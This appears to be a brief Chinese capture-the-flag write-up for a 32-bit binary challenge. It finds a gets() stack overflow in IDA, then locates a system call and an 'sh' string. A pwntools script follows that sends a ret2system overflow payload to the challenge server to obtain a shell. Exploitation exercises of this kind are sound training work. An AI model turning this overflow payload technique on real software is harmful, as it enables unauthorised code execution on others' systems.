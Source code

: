 1. 给一个文件，用ida打开，查看main  
![alt text](image.png)  

2. 查看init()和vulnerable(),发现gets，可以栈溢出  

![alt text](image-1.png)  

3. 左侧发现shell函数，调用了system函数
![alt text](image-2.png)  
但是不能用，不过最后的sh可以用，看字符串位置  
![alt text](image-3.png)  
"sh"位置就是0x08048670  

4. 编写脚本  

```python
from pwn import *

re=remote('node5.anna.nssctf.cn',24973)

s_add=0x08048529

sh_add=0x08048670

payload = cyclic(0x18+4) + p32(s_add)+p32(sh_add)

re.sendline(payload)

re.interactive()
```
